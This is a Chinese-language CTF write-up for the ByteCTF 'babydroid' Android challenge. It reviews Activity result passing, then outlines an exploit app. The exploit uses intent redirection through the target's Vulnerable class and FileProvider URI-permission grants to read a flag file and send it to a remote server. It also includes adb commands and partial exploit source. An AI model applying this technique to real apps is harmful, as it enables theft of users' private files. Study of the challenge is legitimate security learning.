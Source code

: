     Log.d("SecondActivity", data);
3. 返回数据给上一个活动  
    启动活动：使用 startActivityForResult() ，它接收两个参数 ( Intent, 请求码 )。  
    返回数据：new出一个Intent putExtra() 放入数据，调用 setResult(RESULT\_OK, intent) ，最后销毁当前活动。  
    获取数据：重写回调的 onActivityResult() 方法，检查requestCode和resultCode，调用 data.getStringExtra() 取出数据。  
    // 获取数据  
    \[@Override \]()  
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {  
    switch (requestCode) {  
    case 1:  
    if (resultCode == RESULT\_OK) {  
    String returnedData = data.getStringExtra("data\_return");  
    Log.d("FirstActivity", returnedData);  
    }  
    break;  
    default:  
    }  
    }

学过基础后，就可以直接写exp了，因为我们可以直接跳转到我们nc的class里面进而远程带出flag  
1.利用Android studio 创建项目，空白的项目即可  
2.包名要跟它规定的一样，也就是pwnbabydroid  
3.在AndroidManifest.xml添加要申请的权限 这是我们要进行申请权限（由于目标是30版本，我们这里要多加个  
android:usesCleartextTraffic="true"，因为高版本是禁止使用明文流量的）  
4.我们利用传参的方式来写主要exp，通过exp的传参，跳转到目标的攻击类里（Vulnclass），然后通过目标的攻击类跳转到我们创建的FlagHunter里  
5.FlagHunter里写的主要是，我们进行获取远程的一个flag，并反弹到我们远程服务器上进而获取flag  
6.由于是在本地创建的环境所以我们本地目标app里是没有flag文件的，这里我们要用adb自己去导入一个flag文件  
在py文件里有个这几行代码，是用来写flag的准确位置，由于是在本地复现，我们跟据它写的地址，我们利用adb发个广播  
adb\_install(APK\_FILE)  
adb\_activity(f"{VULER}/.MainActivity", wait=True)  
with open(FLAG\_FILE, "r") as f:  
adb\_broadcast(f"com.bytectf.SET\_FLAG", f"{VULER}/.FlagReceiver", extras={"flag": f.read()})  
adb shell su root am broadcast -W -a com.bytectf.SET\_FLAG -n com.bytectf.babydroid/.FlagReceiver -e flag flag{azly,good hack}  
这里导入的时候，我们要在模拟器里要打开目标app才能准确导入  
7.这些都准备好后就可以运行了，在远程服务器获取flag  
还有一点是要注意的是，因为我们除了一个主要的class，另外创建了一个flagHunter class文件，这时候我们要在AndroidManifest进行添加这个就可以了  
以上就是这个题的思路  
我们直接看exp app code吧，因为更好理解  
MainActivity.class：

```plain
package com.bytectf.pwnbabydroid;
import android.app.Activity;
import android.content.ContentValues;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.provider.MediaStore;
import android.widget.Toast;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;

public class MainActivity extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent extra = new Intent();
        extra.setFlags(Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION | Intent.FLAG_GRANT_READ_URI_PERMISSION | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
        extra.setClassName(getPackageName(), "com.bytectf.pwnbabydroid.FlagHunter"); extra.setData(Uri.parse("content://androidx.core.content.FileProvider/"));
        Intent intent = new Intent();
        intent.setClassName("com.bytectf.babydroid", "com.bytectf.babydroid.Vulnerable");
        intent.putExtra("intent", extra);
```